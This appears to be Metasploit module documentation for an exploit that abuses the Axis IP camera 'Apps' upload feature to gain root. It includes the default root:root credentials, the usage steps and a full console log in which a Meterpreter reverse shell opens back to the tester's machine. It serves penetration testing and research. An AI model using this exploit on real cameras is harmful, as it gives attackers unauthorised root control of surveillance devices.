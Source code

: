 ## Vulnerable Application

### Description

This module exploits the "Apps" feature in Axis IP cameras. The feature allows third party
developers to upload and execute 'eap' applications on the device. The system does not validate
the application comes from a trusted source, so a malicious attacker can upload and execute
arbitrary code. The issue has no CVE, although the technique was made public in 2018.

This module uploads and executes stageless meterpreter as `root` via the application upload
feature. The module will also uninstall the application upon completion. Uploading the application
requires valid credentials. The default administrator credentials used to be `root:root` but
newer firmware versions force users to provide a new password for the `root` user.

The module was tested on an Axis M3044-V using the latest firmware (9.80.3.8: December 2021).
All devices that support the "App" feature are presumed to be vulnerable at this time.

### Installation

Axis cameras are physical devices and aren't known to have been successfully emulated. However,
if you have a device, affected firmware can be downloaded from:

* https://www.axis.com/

A free account is required to navigate the site but you can download specific firmware without
authentication. For example, the latest version for the Axis M3044-V can be downloaded here:

* https://www.axis.com/ftp/pub/axis/software/MPQT/M3044-V/9_80_3_8/M3044-V_9_80_3_8.bin

## Verification Steps

* Acquire an affected device
* Do: `use exploit/linux/http/axis_app_install`
* Do: `set RHOST <ip>`
* Do: `set PASSWORD <password>`
* Do: `check`
* Verify the remote target is flagged as vulnerable
* Do: `set LHOST <ip>`
* Do: `exploit`
* You should get a Meterpreter session.

## Options

### USERNAME

The username to authenticate to the web server with. The default value is "root".

### PASSWORD

The password to authenticate to the web server with. The default value is "root".

## Scenarios

### Axis M3044-V using firmware 9.80.3.8. Get Meterpreter session.

```
msf6 > use exploit/linux/http/axis_app_install
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/axis_app_install) > set RHOST 192.168.1.183
RHOST => 192.168.1.183
msf6 exploit(linux/http/axis_app_install) > set LHOST 192.168.1.220
LHOST => 192.168.1.220
msf6 exploit(linux/http/axis_app_install) > set password labpass1
password => labpass1
msf6 exploit(linux/http/axis_app_install) > check
[*] 192.168.1.183:80 - The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'
msf6 exploit(linux/http/axis_app_install) > run

[*] Started reverse TCP handler on 192.168.1.220:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target reports itself to be a 'AXIS M3044-V'
[*] Creating an application package named: sey
[*] Sending an application upload request to /axis-cgi/packagemanager.cgi
[+] Application installed. Pausing 5 seconds to let the filesystem sync.
[+] Deleted /etc/systemd/system/sey.service
[*] Meterpreter session 1 opened (192.168.1.220:4444 -> 192.168.1.183:60298 ) at 2022-02-14 17:30:51 -0800
[*] Sending a delete application request to /axis-cgi/applications/control.cgi

meterpreter > getuid
Server username: root
meterpreter > shell
Process 16666 created.
Channel 1 created.
id
uid=0(root) gid=0(root)
cat /proc/cpuinfo
processor	: 0
model name	: ARMv7 Processor rev 1 (v7l)
BogoMIPS	: 156.00
Features	: half thumb fastmult vfp edsp neon vfpv3 tls vfpd32 
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x4
CPU part	: 0xc09
CPU revision	: 1

Hardware	: Ambarella S2L (Flattened Device Tree)
Revision	: 0000
Serial		: 0000000000000000
pwd
/
exit
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.1.183 - Meterpreter session 1 closed.  Reason: Died
msf6 exploit(linux/http/axis_app_install) > 
```
